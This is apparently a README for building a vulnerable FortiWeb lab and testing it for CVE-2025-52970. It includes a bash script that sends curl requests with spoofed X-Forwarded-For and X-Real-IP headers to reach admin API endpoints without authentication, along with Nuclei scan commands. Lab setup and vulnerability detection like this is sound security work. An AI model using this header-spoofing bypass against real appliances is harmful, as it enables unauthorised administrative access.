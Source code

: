 # Vulnerable FortiWeb Instance Setup for CVE-2025-52970

## Overview
This document provides detailed instructions for setting up a vulnerable FortiWeb instance to test CVE-2025-52970 (Broken Access Control vulnerability).

## Vulnerability Details
- **CVE**: CVE-2025-52970
- **Type**: Broken Access Control
- **Severity**: High (CVSS 9.8)
- **Affected Versions**: FortiWeb <= 7.6.3, <= 7.4.7, <= 7.2.10, and <= 7.0.10
- **Impact**: Unauthenticated remote attackers can gain admin privileges via crafted requests

## Prerequisites
- VMware Workstation, VirtualBox, or similar virtualization platform
- Minimum 4GB RAM, 2 CPU cores
- 50GB free disk space
- Network access for downloading FortiWeb VM

## Method 1: Official FortiWeb VM Setup

### Step 1: Download FortiWeb VM
1. Visit [Fortinet Support Portal](https://support.fortinet.com/)
2. Create account and login
3. Navigate to Downloads > FortiWeb
4. Download FortiWeb VM for your virtualization platform
5. **Important**: Download version 7.6.3 or earlier (vulnerable versions)

### Step 2: Deploy FortiWeb VM
1. Import the downloaded VM into your virtualization platform
2. Configure VM settings:
   - RAM: 4GB minimum
   - CPU: 2 cores minimum
   - Network: Bridge mode (to access from host)
3. Start the VM

### Step 3: Initial Configuration
1. Boot the FortiWeb VM
2. Login with default credentials (check FortiWeb documentation)
3. Configure basic network settings
4. Enable web management interface
5. Note the management IP address

### Step 4: Verify Vulnerability
1. Access the web interface: `https://<fortiweb-ip>`
2. Login with admin credentials
3. Navigate to System > Status to verify FortiWeb version
4. Confirm version is <= 7.6.3 (vulnerable)

## Method 2: Docker Setup (Alternative)

### Step 1: Create Dockerfile
```dockerfile
FROM ubuntu:20.04

# Install dependencies
RUN apt-get update && apt-get install -y \
    python3 \
    python3-pip \
    nginx \
    && rm -rf /var/lib/apt/lists/*

# Install Flask
RUN pip3 install flask

# Copy mock server
COPY mock-vulnerable-fortiweb.py /app/
WORKDIR /app

# Expose port
EXPOSE 80

# Run mock server
CMD ["python3", "mock-vulnerable-fortiweb.py"]
```

### Step 2: Build and Run
```bash
# Build the image
docker build -t vulnerable-fortiweb .

# Run the container
docker run -p 8080:80 vulnerable-fortiweb
```

## Method 3: Manual Testing Setup

### Step 1: Create Test Script
```bash
#!/bin/bash
# test-fortiweb-vulnerability.sh

TARGET_URL=$1
if [ -z "$TARGET_URL" ]; then
    echo "Usage: $0 <target_url>"
    echo "Example: $0 https://192.168.1.100"
    exit 1
fi

echo "Testing CVE-2025-52970 on: $TARGET_URL"
echo "=========================================="

# Test 1: System Status (should be accessible)
echo "Testing system status endpoint..."
curl -s -H "X-Forwarded-For: 127.0.0.1" \
     -H "X-Real-IP: 127.0.0.1" \
     "$TARGET_URL/api/v2.0/system/status" | jq .

# Test 2: Admin Endpoint (should be accessible with bypass)
echo "Testing admin endpoint..."
curl -s -H "X-Forwarded-For: 127.0.0.1" \
     -H "X-Real-IP: 127.0.0.1" \
     "$TARGET_URL/api/v2.0/system/admin" | jq .

echo "=========================================="
echo "If both endpoints return 200 with FortiWeb data, the vulnerability is present"
```

### Step 2: Run Tests
```bash
chmod +x test-fortiweb-vulnerability.sh
./test-fortiweb-vulnerability.sh https://your-fortiweb-ip
```

## Testing the Nuclei Template

### Step 1: Install Nuclei
```bash
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
```

### Step 2: Run Template
```bash
# Basic test
nuclei -t http/cves/2025/CVE-2025-52970.yaml -u https://fortiweb-ip

# Debug test
nuclei -t http/cves/2025/CVE-2025-52970.yaml -debug -u https://fortiweb-ip -v
```

### Step 3: Verify Results
The template should detect:
- FortiWeb system status accessible without authentication
- Admin endpoints accessible with crafted headers
- Both returning 200 status codes with FortiWeb-specific content

## Expected Behavior

### Vulnerable Instance
- System status endpoint returns 200 with FortiWeb information
- Admin endpoint returns 200 with admin/privilege information
- Headers like X-Forwarded-For: 127.0.0.1 trigger the bypass

### Patched Instance
- System status endpoint returns 401 Unauthorized
- Admin endpoint returns 401 Unauthorized
- No admin privileges accessible without proper authentication

## Troubleshooting

### Common Issues
1. **Connection Refused**: Check if FortiWeb is running and accessible
2. **401 Unauthorized**: Instance may be patched or not vulnerable
3. **Timeout**: Check network connectivity and firewall rules

### Debug Steps
1. Verify FortiWeb version is <= 7.6.3
2. Check if web management is enabled
3. Confirm network connectivity
4. Test with curl first before using Nuclei

## Security Notice
⚠️ **WARNING**: Only use vulnerable instances in isolated lab environments. Never deploy vulnerable FortiWeb instances on production networks or public internet.

## References
- [CVE-2025-52970 Details](https://pwner.gg/blog/2025-08-13-fortiweb-cve-2025-52970)
- [FortiWeb Documentation](https://docs.fortinet.com/fortiweb/)
- [FortiGuard Advisory](https://fortiguard.fortinet.com/psirt/FG-IR-25-448)
